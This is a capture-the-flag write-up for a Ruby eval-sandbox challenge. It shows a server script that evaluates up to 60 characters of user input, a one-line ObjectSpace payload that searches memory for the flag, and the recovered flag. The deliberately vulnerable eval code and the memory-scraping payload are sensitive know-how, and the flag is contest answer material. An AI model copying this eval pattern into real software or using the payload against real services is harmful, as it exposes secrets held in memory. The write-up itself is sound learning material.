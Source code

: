 Ruby Master - Level 3 150 points
================

题意
-------------

Final level, beat it!

Steal flag from level3.rb and level3_flag.rb

The attachment is the same is level 1 & 2

Server: nc host port

Attachment: ruby_master.zip

解题步骤
-------------

任务：

level3.rb：

```
require_relative 'restrict'
Restrict.set_timeout

def get_flag(x)
  flag = "THUCTF{CENSORED}"
  x
end

input = STDIN.gets
fail unless input
input.size > 60 && input = input[0, 60]

Restrict.seccomp

STDOUT.puts get_flag(eval(input))
```

level3_flag.rb：

```
# FLAG is THUCTF{CENSORED}
```

虽然文字在注释中，但仍然在内存里。

```
ObjectSpace.each_object(String) {|x| p x if /THUCTF\{/ =~ x}
```

得到：

```
# FLAG is THUCTF{Th3_rea1_RUBY_Mast3r_1s_y0u!}
```